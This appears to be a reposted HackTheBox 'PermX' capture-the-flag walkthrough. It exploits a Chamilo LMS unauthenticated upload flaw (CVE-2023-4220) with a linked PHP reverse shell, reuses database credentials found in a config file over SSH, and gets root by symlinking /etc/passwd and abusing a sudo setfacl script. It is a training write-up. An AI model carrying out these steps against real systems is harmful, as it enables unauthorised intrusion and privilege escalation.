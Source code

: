 PermX Walkthrough — HackTheBox
==============================

![captionless image](https://miro.medium.com/v2/resize:fit:1388/format:webp/1*_d1GtfPjVEoaekQliy8MHg.png)

[Reference](https://medium.com/@misterxcrypt/hackthebox-walkthrough-permx-f90a1943b156?source=your_stories_page-------------------------------------) by [MrXcrypt](https://medium.com/@misterxcrypt?source=post_page---byline--f90a1943b156--------------------------------)

Introduction
============

In this write-up, We’ll go through an easy Linux machine where we first gain initial foothold by exploiting a CVE, followed by manipulating Access Control Lists (ACL) to achieve root access. #easy #linux #CVE #ACL #writeup #walkthrough #HackTheBox 

Reconnaissance 
==============

1.  After Starting the machine, I set my target IP as $target environment variable and ran nmap command. #nmap #recon 

**_Command — Port Scan: Nmap_**

```
nmap $target --top-ports=1000 -sV -v -sC  -Pn > nmap.out
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*1qz0O71h3AqcbCD7VeASTA.png)

2. Then, As usual I added the host:permx.htb in /etc/hosts.

3. While enumerating the website, I started directory fuzzing and subdomain fuzzing in the background.

**_Command — Subdomain Fuzzing: Fuff_** #ffuf

```
ffuf -w /home/mrrobot/Downloads/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -u http://permx.htb/ -H "Host:FUZZ.permx.htb" -v -fw 18
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*ZxZdxch6UiAztb-E6oOIVg.png)

**_Command — Directory Fuzzing: Gobuster_** #gobuster

```
gobuster dir -u http://permx.htb -w /home/mrrobot/Downloads/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*w1_sof_5FuwzQWYPSi9_8Q.png)

4. Let’s Explore the Subdomain: lms.permx.htb which seems interesting.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*6llkY6QRohOwr97AhecMDw.png)

5. Using Wappalyzer, I found that the version is Chamilo version 1. #wappalyzer

6. When checking for ‘chamilo lms exploit’, I came across this link. #chamilo #lms #Exploit 

**Exploit:** [https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc](https://github.com/m3m0o/chamilo-lms-unauthenticated-big-upload-rce-poc)

Initial Foothold
================

1.  Learn about the exploit in this link

**Article:** [https://starlabs.sg/advisories/23/23-4220/](https://starlabs.sg/advisories/23/23-4220/)

_CVE-2023–4220 Description_
---------------------------

> _Unrestricted file upload in big file upload functionality in_ `_/main/inc/lib/javascript/bigupload/inc/bigUpload.php_` _in Chamilo LMS <= v1.11.24 allows unauthenticated attackers to perform stored cross-site scripting attacks and obtain remote code execution via uploading of web shell._

2. You can also use the knowledge from the above article to exploit this vulnerability or also you can use the above Github tool to easily to exploit it. #RemoteCodeExecution #XSS #webshell

3. I used the PHP reverse shell from PentestMonkey to craft a reverse shell and followed the PoC (Proof of Concept) in that article to get a reverse shell. #php #ReverseShell #CVE-2023-4220 #POC

**PHP Reverse Shell:** [https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)
#phpreverseshell
**Exploit:**
------------
#exploitation
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*FFq34KXpgmeGFag__UJiCA.png)

**Reverse Shell Listener:**
---------------------------

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*_5-duRzHfVPo2slKc57evA.png)

**_Command — Spawn Bash shell: python one-liner_**

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

1.  The above command will spawn the bash shell which is more stable.
2.  Now, as a www-data user, We don’t have much permission.

Lateral Movement
================

i. User Flag
============

1.  After checking what files are available in the system. I thought of finding files which are owned by ’www-data’

**_Command — Files owned by a user: find_** #find #userflag

```
find / -user www-data 2>/dev/null | grep -v '/proc\|/run\|/var/www'
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*_5-duRzHfVPo2slKc57evA.png)

2. I tried running linpeas, but nothing interesting turned out. But I found an interesting file ‘configuration.php’. #linpeas

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*Ud8ITcmFvOv9Oi2SUIu3Pw.png)

3. So I ran a find command to check for any other ‘configuration.php’ file in chamilo application.

**_Command — Finding config file: find_**

```
find / -name configuation.php 2>/dev/null
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*No--SpCl_unGnuI1VS4gPQ.png)

4. Upon opening the file ‘/var/www/chamilo/app/config/configuration.php’, I found the ‘database connection settings’.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*RhEtJK3nFQalBMGeU1nPhA.png)

5. There are two users in this system. We can find this using the following command:

**_Command — Finding users: /etc/passwd_**

```
cat /etc/passwd | grep
```
![captionless image](https://miro.medium.com/v2/resize:fit:1294/format:webp/1*Vng6EC-FQUCHl_XS8bqB7Q.png)

6. Let’s try ssh using the password from the configuration file.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*5CEfMgKqbOnxIIeiOGx_Zw.png)

ii. Root Flag
=============

1.  Now, We have a low privileged user access. First run the usual command to find the sudo privileged files. #rootflag #PrivilegeEscalation

**_Command — Sudo Privileged files: sudo_** #sudo

```
sudo -l
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*IBO9k4iwXcoUR_EPokq7Mw.png)

2. Let’s read the contents of the file ‘/opt/acl.sh’.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*JuJOrYCimPsqX_AHJsGKiw.png)

3. Understand the script and it’s functionality.

**Things to Note**
------------------

> _This script uses_ `_sudo setfacl_` _to assign the specified permissions to the given user._
> 
> _$1: user — the user for whom ACL permissions will be set.
> $2: perm — the permissions (e.g., rwx).
> $3: file — the file on which permissions will be set._
> 
> The script gets three arguments: user, permission, target file.
> 
> We can use this script to modify permissions of any file which is in the home directory of user ‘mtz’.
> 
> If we able to link any important to a file in the home directory of mtz, we can change the permission using the /opt/acl.sh script.

**_Command — Symbolic link: ln_** #ln

```
ln -s /etc/passwd /home/mtz/passwd1
```
![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*uDjISkF0rd06kyI2n3PBBQ.png)

4. This command creates a symbolic link of the ‘/etc/passwd’ file to a file ‘/home/mtz/passwd1’.

5. Since this symbolic file is in the home directory of the user ‘mtz’, we can change the permission of the file using the available script ‘/opt/acl.sh’.

**_Command — Using the script: /opt/ach.sh_**

```
sudo /opt/acl.sh mtz rwx /home/mtz/passwd1
```

6. This command changes the permission of the symbolic file /home/mtz/passwd1.

7. Now, We can just delete the password of the root and change the user to ‘root’.

8. We just deleted the ‘x’ in `root:x:0:0:root:/root:/bin/bash`. It will delete the password of the root.

9. Then we can use the command `su root` to become root.

![captionless image](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*7VBlRq4SidDsjXSbJ7_e7g.png)

Now, We are ROOT! Thanks for Reading. Happy hacking!!

